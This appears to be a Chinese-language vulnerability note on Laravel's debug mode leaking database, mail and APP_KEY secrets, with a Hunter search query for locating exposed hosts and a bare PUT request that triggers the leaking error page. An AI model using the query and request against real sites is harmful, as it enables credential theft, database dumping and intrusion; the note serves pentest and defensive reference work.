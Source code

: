 # laravel开启debug模式信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">laravel因配置不当会泄露MySQL，Redis，Elastic，Mongodb，neo4j，postgresql，SQLServer，Oracle，Firebird，sqlite，mail账号密码和APP</font><font style="color:rgb(215, 186, 125);">\_</font><font style="color:rgba(0, 0, 0, 0.9);">KEY等敏感信息。黑客可以利用这些信息进行脱库，或者在服务器植入后门，也可以利用数据库服务器进行跳板入侵内网其他重要服务器。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">laravel</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name=="Laravel Default Page"`
+ 特征

![1706028497800-b50dcfba-e08c-49ee-889a-d5366a7c5da2.png](./img/P88NvAGGM0PZp2co/1706028497800-b50dcfba-e08c-49ee-889a-d5366a7c5da2-494849.png)

# 四、漏洞复现
```plain
PUT /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 0
```

![1706028548504-9391ce93-a3e2-469c-b68a-430122c7597f.png](./img/P88NvAGGM0PZp2co/1706028548504-9391ce93-a3e2-469c-b68a-430122c7597f-688243.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tgvd9mmhbtzgbv2k>